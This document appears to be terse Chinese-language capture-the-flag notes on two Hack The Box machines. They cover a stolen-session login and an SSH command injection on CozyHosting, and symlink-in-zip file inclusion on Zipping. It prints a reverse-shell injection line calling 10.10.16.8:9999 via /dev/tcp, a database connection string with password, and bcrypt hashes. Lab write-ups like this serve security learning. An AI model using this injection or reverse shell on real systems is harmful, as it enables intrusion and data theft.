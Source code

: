 ## CozyHosting
#eASY #Linux

nmap 扫描端口

dirsearch 扫描目录

![](attachments/Pasted%20image%2020230910150836.png)

`http://cozyhosting.htb/actuator/sessions`

![](attachments/Pasted%20image%2020230910150903.png)

配置cookie登录，访问admin

![](attachments/Pasted%20image%2020230910151303.png)

host ：127.0.0.1
username: root

![](attachments/Pasted%20image%2020230910153419.png)

这里应该是命令执行 ssh


![](attachments/Pasted%20image%2020230910153533.png)

带有username和host的是`[-J [user@]host[:port]]`

```
;`(sh)0>/dev/tcp/10.10.16.8/9999`
exec >&0
```
![](attachments/Pasted%20image%2020230910164753.png)

script /dev/null -c bash 美化

![](attachments/Pasted%20image%2020230910164957.png)

python 将jar包下载

![](attachments/Pasted%20image%2020230910195809.png)


`psql "postgresql://postgres:Vg&nvzAQ7XxR@localhost/postgres"`

连接进入

![](attachments/Pasted%20image%2020230911075447.png)

```
kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

## Zipping
#Linux #Medium
nmap没有扫到其他多余端口

dirseach扫描

![](attachments/Pasted%20image%2020230913102902.png)



![](attachments/Pasted%20image%2020230913102958.png)

没有办法上传php，但是考验利用link实现文件包含

![](attachments/Pasted%20image%2020230913104433.png)

打压缩包，用·`--symlinks`参数 用了这个参数，打在压缩包的时候，是一个链接文件，而不是链接的目标文件

![](attachments/Pasted%20image%2020230913105315.png)

